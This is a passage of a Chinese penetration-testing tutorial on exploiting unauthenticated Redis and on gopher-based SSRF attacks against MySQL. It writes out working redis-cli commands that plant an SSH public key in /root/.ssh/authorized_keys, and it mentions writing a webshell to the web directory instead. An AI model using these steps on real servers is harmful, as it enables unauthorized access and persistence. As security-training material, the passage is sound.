 	-x 

	代表从标准输入读取数据作为该命令的最后一个参数。

	$echo "world" |redis-cli -x set hello

将 ssh 公钥写日志：

	(echo -e "\n"; cat id_rsa.pub; echo -e "\n") > temp.txt
	cat temp.txt | redis-cli -a 666 -x set 1

	config set dir /root/.ssh/
	config set dbfilename authorized_keys
	save

要求默认 ```/root/.ssh/``` 必须有这个目录，没有不会自己创建。

如图，就是权限不足，但可以向web目录写shell。

![](images/redis4.png)

我的redis 是yum安装的，没有向 ```/root``` 目录写文件的权限。

cat /etc/passwd 查看权限：

![](images/redis5.jpg)

![](images/redis6.jpg)

另一台服务器，**redis是后台root权限启动的**，cat /etc/passwd 没有看到redis用户。 这种情况可以向 ```/root```目录写文件。

	/opt/insa/redis/bin/redis-server /opt/insa/redis/etc/redis.conf 

![](images/redis7.jpg)

### gopher 攻击mysql

MySQL认证过程：

MySQL客户端连接并登录服务器时存在两种情况：需要密码认证以及无需密码认证。当需要密码认证时使用挑战应答模式，服务器先发送salt然后客户端使用salt加密密码然后验证；当无需密码认证时直接发送TCP/IP数据包即可。所以在非交互模式下登录并操作MySQL只能在无需密码认证，未授权情况下进行，本文利用SSRF漏洞攻击MySQL也是在其**未授权**情况下进行的。

环境：<=php5.6
